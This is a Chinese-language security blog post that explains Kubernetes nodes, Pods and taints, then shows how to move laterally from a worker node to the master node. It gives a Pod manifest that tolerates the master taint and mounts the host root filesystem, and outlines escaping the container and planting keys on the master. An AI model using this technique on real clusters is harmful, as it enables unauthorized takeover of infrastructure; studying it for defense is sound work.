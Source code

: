 ```yaml
---
date: "2021-07-20T00:00:00Z"
description: Kubernetes (通常称为 K8s) 是来自 Google 云平台的开源容器集群管理系统，用于自动部署、扩展和管理容器化（containerized）应用程序。本文介绍获取了其中某个节点的宿主机权限，如何横向移动到Master节点，从而获取整个集群的权限。
title: Kubernetes(K8s)横向移动办法
url: /archivers/2021-07-20/1
---
```


> 博客半年没写了，来除除草.... :(

## 0x01 Kubernetes 简介

Kubernetes 是一个可移植的、可扩展的开源平台，用于管理容器化的工作负载和服务，可促进声明式配置和自动化。 Kubernetes 拥有一个庞大且快速增长的生态系统。Kubernetes 的服务、支持和工具广泛可用。

![2021-07-20-11-19-39](../../../static/images/b3682bc6-4f5f-11ec-a3a0-00d861bf4abb.png)

**传统部署时代：**

早期，各个组织机构在物理服务器上运行应用程序。无法为物理服务器中的应用程序定义资源边界，这会导致资源分配问题。 例如，如果在物理服务器上运行多个应用程序，则可能会出现一个应用程序占用大部分资源的情况， 结果可能导致其他应用程序的性能下降。 一种解决方案是在不同的物理服务器上运行每个应用程序，但是由于资源利用不足而无法扩展， 并且维护许多物理服务器的成本很高。

**虚拟化部署时代：**

作为解决方案，引入了虚拟化。虚拟化技术允许你在单个物理服务器的 CPU 上运行多个虚拟机（VM）。 虚拟化允许应用程序在 VM 之间隔离，并提供一定程度的安全，因为一个应用程序的信息 不能被另一应用程序随意访问。

虚拟化技术能够更好地利用物理服务器上的资源，并且因为可轻松地添加或更新应用程序 而可以实现更好的可伸缩性，降低硬件成本等等。

每个 VM 是一台完整的计算机，在虚拟化硬件之上运行所有组件，包括其自己的操作系统。

**容器部署时代：**

容器类似于 VM，但是它们具有被放宽的隔离属性，可以在应用程序之间共享操作系统（OS）。 因此，容器被认为是轻量级的。容器与 VM 类似，具有自己的文件系统、CPU、内存、进程空间等。 由于它们与基础架构分离，因此可以跨云和 OS 发行版本进行移植。

> 以上摘自Kubernetes官方文档：https://kubernetes.io/zh/docs/concepts/overview/what-is-kubernetes/

## 0x02 Kubernetes 关键概念介绍

Kubernetes有如下几个与本文相关的概念：

1. 节点(Node)
2. Pod
3. 容忍度(Toleration)与污点(Taint)


### 节点(Node)

Kubernetes 通过将容器放入在节点（Node）上运行的 Pod 中来执行你的工作负载。 节点可以是一个虚拟机或者物理机器，取决于所在的集群配置。最容易理解的例子：

![2021-07-20-10-38-26](../../../static/images/b3b30a38-4f5f-11ec-8073-00d861bf4abb.png)

该集群有三个节点，我可以在这三个节点上创建很多个Pod，而Pod中可以包含多个容器。在所有的节点中，至少要有一个Master节点，Master节点是第一个加入集群的机器，它具有整个集群的最高权限，本文的目的就是研究如何通过其他节点，横向移动到Master节点，因为Secret敏感信息(令牌、账户密码、公私钥等等)都存储在Kubernetes的etcd数据库上。

### Pod

Pod是可以在 Kubernetes 中创建和管理的、最小的可部署的计算单元。

Pod（就像在鲸鱼荚或者豌豆荚中）是一组（一个或多个） 容器； 这些容器共享存储、网络、以及怎样运行这些容器的声明。 Pod中的内容总是并置（colocated）的并且一同调度，在共享的上下文中运行。 Pod所建模的是特定于应用的“逻辑主机”，其中包含一个或多个应用容器， 这些容器是相对紧密的耦合在一起的。 在非云环境中，在相同的物理机或虚拟机上运行的应用类似于 在同一逻辑主机上运行的云应用。

Pod的共享上下文包括一组 Linux 名字空间、控制组（cgroup）和可能一些其他的隔离方面，即用来隔离Docker容器的技术。 在Pod的上下文中，每个独立的应用可能会进一步实施隔离。

就Docker概念的术语而言，Pod类似于共享名字空间和文件系统卷的一组Docker容器，也就是说Pod是Docker容器的超集。


### 容忍度(Toleration)与污点(Taint)

Kubernetes可以约束一个 Pod 只能在特定的节点上运行。


节点亲和性 是Pod的一种属性，它使 Pod 被吸引到一类特定的节点 （这可能出于一种偏好，也可能是硬性要求）。 污点（Taint）则相反——它使节点能够排斥一类特定的 Pod。容忍度（Toleration）是应用于 Pod 上的，允许（但并不要求）Pod 调度到带有与之匹配的污点的节点上。**我们可以控制Pod创建时候的污点来向集群内的节点进行喷射创建。**


## 0x03 环境介绍

当前实验环境有三个节点，其中一个为Master节点，其余的都是普通节点。

![2021-07-20-10-56-11](../../../static/images/b3ef7cfc-4f5f-11ec-984e-00d861bf4abb.png)

当前机器是node1，普通节点，节点全部为健康状态，接下来要利用创建Pod的功能，横向到k8s-master。


## 0x04 利用创建Pod横向移动

1. 确认Master节点的容忍度
   
```bash
$ kubectl describe node <Node Name>
```

![2021-07-20-10-59-50](../../../static/images/b454933a-4f5f-11ec-a431-00d861bf4abb.png)

2. 创建带有容忍参数的Pod

```bash
$ kubectl create -f control-master.yaml
```

control-master.yaml内容：

```yaml
apiVersion: v1
kind: Pod
metadata:
name: control-master-3
spec:
tolerations:
- key: node-role.kubernetes.io/master
operator: Exists
effect: NoSchedule
containers:
- name: control-master-3
image: ubuntu:18.04
command: ["/bin/sleep", "3650d"]
volumeMounts:
- name: master
mountPath: /master
volumes:
- name: master
hostPath:
path: /
type: Directory
```

![2021-07-20-11-02-18](../../../static/images/b4bba0de-4f5f-11ec-b260-00d861bf4abb.png)


在多次创建Pod后，会发现Pod会在Master节点上出现，再利用kubectl进入容器，执行逃逸。


![2021-07-20-11-06-24](../../../static/images/b5136788-4f5f-11ec-9315-00d861bf4abb.png)

至此，逃逸完成，能够通过写公私钥的方式控制Master宿主机。

## 0x05 总结

本文通过了解Kubernetes的一些基本概念，完成了在节点中进行横向逃逸，但我没有实现指定节点的逃逸过程，因为在Kubernetes中低权限的节点无法修改Master节点的容忍度，因此要完成逃逸，需要在每一个节点上至少创建一个Pod，如果集群中节点数量庞大的话....